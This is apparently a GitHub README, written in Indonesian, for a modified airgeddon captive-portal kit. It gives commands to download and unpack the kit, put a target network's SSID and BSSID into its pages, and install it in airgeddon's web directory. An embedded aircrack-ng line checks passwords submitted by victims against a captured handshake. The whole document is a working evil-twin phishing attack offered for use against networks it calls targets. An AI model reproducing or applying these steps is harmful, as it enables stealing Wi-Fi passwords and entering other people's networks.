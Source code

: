 # portal airgeddon 
## download dengan perintah 
```
wget https://github.com/wongganteng10/portal-airgeddon/releases/download/portal-airgeddon/perubahan-airgedon-portal-stabil-v2.zip
```

## setelah di download extrak file nya dengan perintah 
```
unzip perubahan-airgedon-portal-stabil-v2.zip
cd perubahan-airgedon-portal-stabil-v2
```

## jangan lupa kalau mau menjalankan nya rubah sesuai target 
1.  Rubah di dalam file **`index.htm`** bagian ini dengan `SSID` target
     ```
     echo -e '    <b><span>SSID-TARGET</span></b>'
     ```

2. Rubah juga di dalam file **`check.htm`** bagian MAC target yang di serang, di sini saya menggunakan MAC target ini sebagai contoh CE:32:E5:16:CD:33
     ```
     aircrack-ng -a 2 -b CE:32:E5:16:CD:33 -w "/tmp/ag1/www/ag.et_currentpass.txt" "/root/handshake-CE:32:E5:16:CD:33.cap" | grep "KEY FOUND!" > /dev/null
     ```

3. setelah di edit semuanya sesuai target yang di serang 
4. langkah selanjutnya memindahkan ke dalam file www airgedon yang di jalankan, di sini saya kebetulan ada di direktori ini 
     ```
     cd perubahan-airgedon-portal-stabil-v2
     cp * /tmp/ag1/www
     ```

## selesai

**Full Changelog**: https://github.com/wongganteng10/portal-airgeddon/commits/portal-airgeddon
